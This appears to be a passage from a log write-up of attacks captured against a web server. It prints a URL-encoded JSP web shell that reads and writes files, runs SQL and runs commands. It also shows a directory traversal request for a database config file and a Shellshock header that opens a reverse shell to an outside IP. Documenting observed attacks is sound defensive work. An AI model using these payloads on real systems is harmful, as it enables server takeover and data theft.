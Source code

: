 ngBuffer%20sb)throws%20Exception%7Bint%20i%3BConnection%20c%3DGC(s)%3BStatement%20m%3Dc.createStatement(1005%2C1008)%3B%0D%0Atry%7BResultSet%20r%3Dm.executeQuery(q)%3BResultSetMetaData%20d%3Dr.getMetaData()%3Bint%20n%3Dd.getColumnCount()%3Bfor(i%3D1%3Bi%3C%3Dn%3Bi%2B%2B)%7Bsb.append(d.getColumnName(i)%2B%22%5Ct%7C%5Ct%22)%3B%0D%0A%7Dsb.append(%22%5Cr%5Cn%22)%3Bwhile(r.next())%7Bfor(i%3D1%3Bi%3C%3Dn%3Bi%2B%2B)%7Bsb.append(EC(r.getString(i)%2Ccs)%2B%22%5Ct%7C%5Ct%22)%3B%7Dsb.append(%22%5Cr%5Cn%22)%3B%7Dr.close()%3B%7D%0D%0Acatch(Exception%20e)%7Bsb.append(%22Result%5Ct%7C%5Ct%5Cr%5Cn%22)%3Btry%7Bm.executeUpdate(q)%3Bsb.append(%22Execute%20Successfully!%5Ct%7C%5Ct%5Cr%5Cn%22)%3B%0D%0A%7Dcatch(Exception%20ee)%7Bsb.append(ee.toString()%2B%22%5Ct%7C%5Ct%5Cr%5Cn%22)%3B%7D%7Dm.close()%3Bc.close()%3B%7D%0D%0A%25%3E%3C%25%0D%0AString%20cs%3Drequest.getParameter(%22z0%22)%2B%22%22%3Brequest.setCharacterEncoding(cs)%3Bresponse.setContentType(%22text%2Fhtml%3Bcharset%3D%22%2Bcs)%3B%0D%0AString%20Z%3DEC(request.getParameter(Pwd)%2B%22%22%2Ccs)%3BString%20z1%3DEC(request.getParameter(%22z1%22)%2B%22%22%2Ccs)%3BString%20z2%3DEC(request.getParameter(%22z2%22)%2B%22%22%2Ccs)%3B%0D%0AStringBuffer%20sb%3Dnew%20StringBuffer(%22%22)%3Btry%7Bsb.append(%22-%3E%22%2B%22%7C%22)%3B%0D%0Aif(Z.equals(%22A%22))%7BString%20s%3Dnew%20File(application.getRealPath(request.getRequestURI())).getParent()%3Bsb.append(s%2B%22%5Ct%22)%3Bif(!s.substring(0%2C1).equals(%22%2F%22))%7BAA(sb)%3B%7D%7D%0D%0Aelse%20if(Z.equals(%22B%22))%7BBB(z1%2Csb)%3B%7Delse%20if(Z.equals(%22C%22))%7BString%20l%3D%22%22%3BBufferedReader%20br%3Dnew%20BufferedReader(new%20InputStreamReader(new%20FileInputStream(new%20File(z1))))%3B%0D%0Awhile((l%3Dbr.readLine())!%3Dnull)%7Bsb.append(l%2B%22%5Cr%5Cn%22)%3B%7Dbr.close()%3B%7D%0D%0Aelse%20if(Z.equals(%22D%22))%7BBufferedWriter%20bw%3Dnew%20BufferedWriter(new%20OutputStreamWriter(new%20FileOutputStream(new%20File(z1))))%3B%0D%0Abw.write(z2)%3Bbw.close()%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22E%22))%7BEE(z1)%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22F%22))%7BFF(z1%2Cresponse)%3B%7D%0D%0Aelse%20if(Z.equals(%22G%22))%7BGG(z1%2Cz2)%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22H%22))%7BHH(z1%2Cz2)%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22I%22))%7BII(z1%2Cz2)%3Bsb.append(%221%22)%3B%7D%0D%0Aelse%20if(Z.equals(%22J%22))%7BJJ(z1)%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22K%22))%7BKK(z1%2Cz2)%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22L%22))%7BLL(z1%2Cz2)%3Bsb.append(%221%22)%3B%7D%0D%0Aelse%20if(Z.equals(%22M%22))%7BString%5B%5D%20c%3D%7Bz1.substring(2)%2Cz1.substring(0%2C2)%2Cz2%7D%3BProcess%20p%3DRuntime.getRuntime().exec(c)%3B%0D%0AMM(p.getInputStream()%2Csb)%3BMM(p.getErrorStream()%2Csb)%3B%7Delse%20if(Z.equals(%22N%22))%7BNN(z1%2Csb)%3B%7Delse%20if(Z.equals(%22O%22))%7BOO(z1%2Csb)%3B%7D%0D%0Aelse%20if(Z.equals(%22P%22))%7BPP(z1%2Csb)%3B%7Delse%20if(Z.equals(%22Q%22))%7BQQ(cs%2Cz1%2Cz2%2Csb)%3B%7D%0D%0A%7Dcatch(Exception%20e)%7Bsb.append(%22ERROR%22%2B%22%3A%2F%2F%20%22%2Be.toString())%3B%7Dsb.append(%22%7C%22%2B%22%3C-%22)%3Bout.print(sb.toString())%3B%0D%0A%25%3E"}



Directory traversal attack:

{u'args': {u'Action': u'View', u'Script': u'../../../../cnf/db.php'},
 u'date': u'2016-04-10T143103',
 u'headers': {u'accept-encoding': u'gzip, deflate',
              u'host': u'REDACTED',
              u'user-agent': u'HTTP_Request2/0.5.2 (http://pear.php.net/package/http_request2) PHP/5.2.6-1+lenny9'},
 u'method': u'GET'}



Huh? Interesting...

{u'args': {},
 u'date': u'2016-04-22T05:37:24',
 u'headers': {u'user-agent': u'() { :; }; /bin/bash -i >& /dev/tcp/65.49.37.71/2311 0<&1 2>&1'},
 u'method': u'GET'}


Mass scanning for basic auth pages, looking for HTTP 401 response:
